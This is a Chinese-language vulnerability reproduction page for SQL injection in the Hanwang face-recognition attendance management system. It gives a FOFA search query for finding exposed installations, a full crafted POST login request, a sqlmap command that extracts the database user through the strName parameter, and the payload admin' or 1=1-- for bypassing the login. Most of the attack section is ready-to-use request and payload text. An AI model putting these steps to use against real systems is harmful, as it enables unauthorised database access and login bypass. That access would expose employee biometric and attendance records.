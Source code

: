 # 汉王人脸考勤管理系统 Check SQL注入漏洞

## 漏洞描述

汉王人脸考勤管理系统存在SQL注入漏洞，攻击者可利用该漏洞获取数据库敏感信息。

## 漏洞影响

> [!NOTE]
>
> 汉王人脸考勤管理系统

## FOFA

> [!NOTE]
>
> title=""汉王人脸考勤管理系统""

## 漏洞复现

登录界面如下

![1](http://wikioss.peiqi.tech/vuln/hw-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包如下

```shell
POST /Login/Check HTTP/1.1
Host: x.x.x.x
Content-Length: 27
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://x.x.x.x:8088
Referer: http://x.x.x.x:8088/Login/Index
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=otvxgfy0csmrw4i5y5t24oo1
Connection: close

strName=admin&strPwd=123456
```

其中strName参数存在注入

```shell
sqlmap -r postwang.txt -p strName  --current-user
```

![](http://wikioss.peiqi.tech/vuln/hw-2.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

```
user: admin' or 1=1--
pass: admin
```

万能密码绕过登录

![](http://wikioss.peiqi.tech/vuln/hw-3.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

![](http://wikioss.peiqi.tech/vuln/hw-4.png )